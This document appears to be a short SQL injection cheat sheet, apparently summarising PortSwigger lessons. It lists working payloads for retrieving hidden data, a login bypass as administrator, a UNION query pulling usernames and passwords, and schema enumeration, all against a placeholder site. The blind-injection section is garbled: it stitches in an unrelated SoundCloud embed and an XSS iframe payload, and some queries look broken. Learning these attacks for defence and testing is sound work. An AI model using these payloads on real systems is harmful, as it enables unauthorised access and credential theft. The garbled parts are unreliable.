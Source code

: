 There are wide variety of SQL injection vulnerabilities:
```
' or 1=1--
' or 1=1 -- -
```
* [Retrieving hidden data](https://portswigger.net/web-security/sql-injection#retrieving-hidden-data): where you can modify an SQL query to return additional results.
```
https://insecure-website.com/products?category=Gifts'-- (SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1)
https://insecure-website.com/products?category=Gifts'+OR+1=1-- (SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1)
```

* [Subverting application logic](https://portswigger.net/web-security/sql-injection#subverting-application-logic): where you can change a query to interfere with the application's logic.Consider an application that lets users log in with a username and password. If a user submits the username wiener and the password bluecheese, the application checks the credentials by performing the following SQL query:
```
SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese' >> administrator'-- (SELECT * FROM users WHERE username = 'administrator'--' AND password = '')
```
* [UNION attacks](https://portswigger.net/web-security/sql-injection/union-attacks), where you can retrieve data from different database tables.
```
' UNION SELECT username, password FROM users--
```
* [Examining the database](https://portswigger.net/web-security/sql-injection/examining-the-database), where you can extract information about the version and structure of the database.Following initial identification of an SQL injection vulnerability, it is generally useful to obtain some information about the database itself. This information can often pave the way for further exploitation.
```
SELECT * FROM information_schema.tables
SELECT * FROM $version
```

* [Blind SQL injection](https://portswigger.net/web-security/sql-injection/blind) where the results of a query you control are not returned in the application's responses.
```
  ' OR 1=1 --

  <iframe width="100%" height="166" scrolling="no" frameborder="no" allow="autoplay" src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/‐ 771984076&color=%23ff5500&auto_play=true&hide_related=false&show_comments=true&show iframe>

  <iframe src="javascript:alert(`xss`)">
```
